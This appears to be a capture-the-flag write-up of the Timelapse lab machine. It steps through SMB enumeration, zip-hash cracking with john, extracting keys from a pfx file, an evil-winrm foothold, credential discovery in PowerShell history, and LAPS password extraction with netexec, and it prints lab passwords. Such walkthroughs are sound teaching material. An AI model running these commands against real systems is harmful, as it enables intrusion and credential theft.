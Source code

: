 # 📦 Timelapse

I start off by scanning open ports:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

first i add timelaps.htb to my hosts file

Then i try conecting though RPCCLIENT anonymous but got denied, then SMB shares enum:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I download everything in the share and see some interesting stuff:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a password to unzip the backup zip so i use zip2john to get the hash:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
john  --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt 
```

then i get my hash, i'm able to unzip and see the pfx file but there is also a password:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>thuglegacy</p></figcaption></figure>

Then to extract the keys ->

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
#to see the content:
openssl pkcs12 -in legacyy_dev_auth.pfx
#to dl the key:
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
#to dl the cert:
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert
```

**`-nocerts`** → Tells OpenSSL to extract **only** the private key (skip the certificates).

**`-nodes`** → **Disables encryption** on the private key (otherwise, OpenSSL would ask for a passphrase)

**`-nokeys`** → Tells OpenSSL to extract **only** the certificate(s) (skip the private key).

Now that we have a private key i can try and use evil-winrm with --ssl:

```
evil-winrm -S -i <IP> -c key.cert -k key.pem
```

and we are able to get a foothold:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
`gci -force .` will show hidden files in a directory
{% endhint %}

Then we have to enumerate and check a powershell file that is used when you connect on multiple computers in a domain with the same account, this file will follow you as your history:

```
C:\Users\legacyy\Appdata\Roaming\Microsoft\Windows\Powershell\Psreadline
```

and in that file we find a consolehost log file ->

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV</p></figcaption></figure>

Winpeas catches this file. Now we can connect:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After looking at our groups we can see some stuff:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password" %}

We can see there is a netexec module for laps exploit:

```
nxc smb 10.129.227.113 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
nxc ldap 10.129.227.113 -u 'Administrator' -p 'D!YT07abvZ0,1Xy%Mf3$8+R8'
```

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

